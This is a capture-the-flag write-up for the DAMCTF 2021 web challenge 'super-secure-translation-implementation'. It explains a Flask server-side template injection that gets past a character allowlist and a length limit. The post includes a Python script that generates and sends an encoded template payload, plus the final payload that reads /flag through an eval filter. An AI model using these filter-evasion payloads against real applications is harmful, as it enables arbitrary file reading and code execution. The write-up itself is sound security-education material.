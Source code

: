 ```yaml
---
layout: post
title:  "[DAMCTF] super-secure-translation-implementation"
date:   "2021-11-07"
categories: [Web, Golf]
author: voidPtr
app_img: /assets/posts_images/super-secure-translation-implementation/app.PNG
check_img: /assets/posts_images/super-secure-translation-implementation/check.PNG
filters_img: /assets/posts_images/super-secure-translation-implementation/filters.PNG
payloadBase_img: /assets/posts_images/super-secure-translation-implementation/payloadBase.PNG
payloadFilter_img: /assets/posts_images/super-secure-translation-implementation/payloadFilter.PNG
---
```


The website show us the source code running on the site.  
<figure>
<img src="{{ page.app_img }}" alt="app.py">
</figure>

As we can see, it is possible to request any path as long as it exists and is in the same folder of app.py. 
Moreover, there's a path on the site, "/secure_translate/", where we can pass an argument "payload" and the server will extend the base code with our input. The perfet setup for a Server Side Template Injection.  
The problem is that our input is sanitized with a function "detect_remove_hacks". Looking at the import of this page, that function is in the file check.py. We can just request its source code in the path with "/check.py".  
<figure>
<img src="{{ page.check_img }}" alt="check.py">
</figure>

Here we can see that our input is restricted to a very limited set of characters, and to a given max lenght calculated from an external library ("rctf", imported in limit.py). An admin later told me that this limit is based on the first solve on th platform: in my case it was 161 chars. Painful.  

We need one more step before starting to build the payload: in app.py, before defining the routes, there are some custom filters added to the server for string manipulation as we can see in the comment above. Let's look at those functions in the file filters.py.
<figure>
<img src="{{ page.filters_img }}" alt="filters.py">
</figure>
There are some useful functions to convert a character in its ascii decimal notation and vice-versa, and a function that evaluates an input if it does not contain words from a blacklist, and if its initials 4 characters are not "open" or "eval".

First things first, let's try if we can make a simple template injection. Since we know we are on flask, let's try something that is not forbidden by the detect_remove_hacks() function, for example {{6*6}}.
<figure>
<img src="{{ page.payloadBase_img }}" alt="payloadBase">
</figure>

Perfect, now we are sure that there's a way of making the server do what we want. The question is, how? We have only a bunch of chars to use, and there's not a payload using only that chars. My first answer was to try using ord() and chr() functions (python built-ins). But for some reason the server returns 500 if we try to use built-in functions inside the payload. So it came to my mind the custom filters implemented by filters.py. We can chain them to obtain another character starting from one of the allowed chars. For example, to obtain "a" we could do something like {{("b"|order-1)|ch}}:
<figure>
<img src="{{ page.payloadFilter_img }}" alt="payloadFilter">
</figure>

Now that we know how to obtain an arbitrary character and that we can chain filters, my guess was to craft a payload and pass it to the e() function to evaluate it.
The problem now is the max lenght of the payload of 161 chars.
I wrote a python script to automate the translation of a char to its equivalent in the order|ch chain, and spent many time optimizing it to reduce the number of characters used. This was painful.  

Finally I came up with a payload, but it was of something like 174 chars. The ultimate "golf" of my code to reduce its length was to substitute the order part with its equivalent in number operations, using only the digits in the whitelist (otherwise we should translate them).
For example {{('l'|order+4)|ch}} == {{(111+1)|ch}} == "p".
I've done this manually because the time was almost finished and I didn't had time to automate it, but here's the script to obtain the payload until this last translation.
```python
import requests

TARGET_URL = 'https://super-secure-translation-implementation.chals.damctf.xyz'

previousNotEncoded = True

def findBestEncoding(c, l):
    resList = []
    for allowed in l:
        res = ""
        toAdd = ""
        sign = "+"
        
        toAdd = str(ord(c) - ord(allowed))
        if int(toAdd) < 0:
            sign = "-"
        if toAdd not in l:
            i = int(toAdd)
            if i == 2:
                toAdd = "1"+sign+"1"
            elif i == 3:
                tempSign = "-"
                if sign == "-":
                    tempSign = "+"
                toAdd = "4"+tempSign+"1"
            elif i == 5:
                toAdd = "4"+sign+"1"
            elif i == 7:
                toAdd = "1"+sign+"6"
            elif i == 8:
                toAdd = "4"+sign+"4"
            elif i == 9:
                toAdd = "4"+sign+"4"+sign+"1"
            else:
                toAdd1 = "1" + (sign+"1") * (abs(i)-1)
                atLeast4 = i // 4
                rest4 = i % 4
                toAdd4 = "4" + (sign+"4") * (abs(atLeast4)-1) + (sign+"1") * rest4
                atLeast6 = i // 6
                rest6 = i % 6
                toAdd6 = "6" + (sign+"6") * (abs(atLeast6)-1) + (sign+"1") * rest6
                if len(toAdd4) > len(toAdd6):
                    toAdd = toAdd6
                else:
                    toAdd = toAdd4
                if len(toAdd1) < len(toAdd):
                    toAdd = toAdd1
        res += "('"+allowed+"'|order"+ sign+toAdd+")|ch"
        resList.append(res)
    shortest = min(resList, key=len)
    return shortest


def codeStringEnhanced(s):
    global previousNotEncoded
    allowlist = [
        '"', "'", '(', ')', '{', '|', '}', '*', '+', '-', '1', '4', '6', 'b', 'c', 'd', 'e', 'h', 'l', 'o', 'r', 'u'
    ]
    res = ""
    for c in s:
        if res != "":
            if not previousNotEncoded:
                res += "+"
        if c in allowlist:
            if res == "":
                res += "'"
            if previousNotEncoded:
                res += c
            else:
                res += "'"+c
            previousNotEncoded = True
        else:
            if previousNotEncoded and res != "":
                res += "'+"
            res += findBestEncoding(c, allowlist)
            previousNotEncoded = False
    if previousNotEncoded:
        res += "'"
    res += ")"
    return res


# cmd = 'forbidlist[5]'
# cmd = '"".__class\__'
# cmd = '(eval("globals()[4]"))'
# cmd = '["b","d"]|map("u")'
# cmd = '''(eval("y('id')")'''
# cmd = 'globals()'
cmd = '(open("/flag").read())'
code = codeStringEnhanced(cmd)
payload = "{{"+code+"}}"
payload = payload.replace("'''", '"\'"')

# payloadF1 = "{{(" + code + "|e}}"
codeManual = ''''(o'+(66+44+1+1)|ch+'e'+(66+44)|ch+'("'+(44+1+1+1)|ch+(66+6*6)|ch+'l'+(4*4*6+1)|ch+(66+6*6+1)|ch+'")'+(46)|ch+'re'+(4*4*6+1)|ch+'d())')'''
payloadF1 = "{{(" + codeManual + "|e}}"
payloadF = payloadF1.replace("+", "%2B") # need this to avoid html/url errors
print(payloadF)
print(f"PAYLOAD LENGHT: {len(payloadF1)}")


r = requests.post(TARGET_URL+'/secure_translate/?payload='+payloadF)
print(f"RETURN CODE: {r.status_code}")

if(r.status_code == 200):
    text = r.text.split("<code>")[1].split("</code>")[0].split("<p>")[1].split("</p>")[0]
    text = text.strip()
    print("RESULT:")
    print(text)
else:
    print(r.text)
```
In the code above there are some commands I tried along the way ("cmd" variable).
The final payload is (open("/flag").read()). The external parenthesis are there to avoid the control in the e() filter. Its translations is:
```
{{('(o'%2B(66%2B44%2B1%2B1)|ch%2B'e'%2B(66%2B44)|ch%2B'("'%2B(44%2B1%2B1%2B1)|ch%2B(66%2B6*6)|ch%2B'l'%2B(4*4*6%2B1)|ch%2B(66%2B6*6%2B1)|ch%2B'")'%2B(46)|ch%2B're'%2B(4*4*6%2B1)|ch%2B'd())')|e}}
```
Its lenght is of 142 chars ("%2B" is translated in "+", so it is counted as a single char). Probably there are shorter payloads, but this has done the trick for me. 
Sending it to the server will give us our flag.

```
dam{p4infu1_all0wl1st_w3ll_don3}
```

